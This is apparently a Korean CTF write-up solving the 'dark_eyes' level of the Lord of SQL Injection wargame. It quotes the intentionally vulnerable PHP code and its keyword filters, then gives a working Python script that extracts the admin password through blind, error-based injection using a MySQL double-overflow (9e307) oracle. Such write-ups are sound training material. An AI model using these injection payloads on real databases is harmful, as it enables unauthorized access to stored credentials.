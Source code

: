 # Lord of SQL Injection No.22 - dark_eyes

## 문제 출제 의도

`col`, `if`, `case`, `when`, `sleep`, `benchmark` 을 사용하지 않고 Error Based SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

dark_eyes 문제의 php 소스 코드는 다음과 같다.
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()`, `#`, `-` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, pw에 `col`, `if`, `case`, `when`, `sleep`, `benchmark` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* MySQL 쿼리 수행에 오류가 있으면 문제 풀이에 실패한다. 이것으로 Error Based SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

## MySQL 지수 연산 최대치

MySQL에서는 e를 이용한 지수 연산이 가능하다.

예를 들어, 9e0은 9와 같고, 9e1은 90과 같다.

이때, 9의 지수 연산의 최대치는 9e307이다. 9e308부터는 ERROR 1367 (22007): Illegal double '9e308' value found during parsing 와 같이 에러가 난다.

또한, 연산을 통해 최대치를 초과할 때에도 ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 9e307)' 와 같이 에러가 난다.

-----

## Solution
    
1. MySQL 지수 연산 최대치 이용

    이 문제는 Blind SQL Injection과 Error Based SQL Injection을 결합해서 풀 수 있다.
    
    에러가 발생하면 query를 출력하지 않고 빈 화면을 출력하므로 이를 이용하는 코드를 작성한다.

    ```python
    import urllib.request
    from urllib.parse import quote

    key = ""

    pwlen = 0

    for i in range(1, 20):
        url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
        data = "' or id='admin' and (((length(pw)='{}')+1)*9e307)-- -".format(str(i))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("query :") == -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            if chr(j) in {'_', '.', "'"}: # 필터링되는 문자들
                continue
            url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
            data = "' or id='admin' and (((substr(pw,{},1)='{}')+1)*9e307)-- -".format(
                str(i), chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2")
            req = urllib.request.urlopen(re)

            if str(req.read()).find("query :") == -1:
                key += chr(j).lower()
                print (key)
                break
    print(key)
    ```

    이러한 코드를 실행하면 결과값으로 5a2f5d3c 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw=5a2f5d3c
    ```